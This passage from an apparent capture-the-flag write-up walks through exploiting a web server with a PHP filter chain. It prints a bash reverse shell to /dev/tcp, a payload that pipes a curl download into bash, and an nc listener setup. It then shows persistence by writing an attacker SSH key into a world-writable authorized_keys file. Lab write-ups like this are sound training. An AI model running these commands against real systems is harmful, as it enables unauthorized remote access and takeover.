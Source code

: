 First, we need to create a reverse shell file. Replace the listening IP with yours.
```bash
echo "bash -i >& /dev/tcp/10.9.8.180/4444 0>&1" > reverseshell
```

Next, generate a chain of PHP filters that encodes your reverse shell. Source -> [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator/tree/main)
```bash
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.9.8.180/reverseshell|bash` ?>' | grep '^php' > payload.txt    
```                                                                               
Copy the payload and paste it into the web server. You also need to start a web server that hosts the shell script, and start a listener to receive the reverse connection.

Terminal-1
```bash
python3 -m http.server 80
```
Terminal-2
```bash
nc -lnvp 4444
```

<img width="1314" height="155" alt="image" src="https://github.com/user-attachments/assets/9111d603-cf1b-48e3-b56b-83714c04ef9e" />
<img width="932" height="544" alt="image" src="https://github.com/user-attachments/assets/0810693d-7193-456b-a953-b73d42719866" />


### Initial Access

We finally get our first shell

<img width="806" height="783" alt="image" src="https://github.com/user-attachments/assets/4babcdfc-ec6c-43f1-8763-a5288fb13d03" />

The current user has a write permission to the `authorized_keys` file of the user comte. We can generate our SSH keys and paste our public key into the file.
```bash
www-data@ip-10-10-73-245:/home/comte$ ls -al .ssh
ls -al .ssh
total 8
drwxr-xr-x 2 comte comte 4096 Mar 25  2024 .
drwxr-xr-x 7 comte comte 4096 Apr  4  2024 ..
-rw-rw-rw- 1 comte comte    0 Mar 25  2024 authorized_keys
```

**SSH key generate**
```bash
ssh-keygen -f id_rsa -t rsa
```

Echo your public key to the Comte's `authorized_keys` file
```bash
www-data@ip-10-10-104-81:/home/comte$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDbFMwDXkBuDRNU7YYyFdMV5Y1RmE4oW0aUavzBHtZNTndDXw2lKtt2vKIrs0S..../DcAKfIYMZ1jXJipDF06tExQBZ/I7Sojs= kali@kali" > .ssh/authorized_keys
<F06tExQBZ/I7Sojs= kali@kali" > .ssh/authorized_keys
```
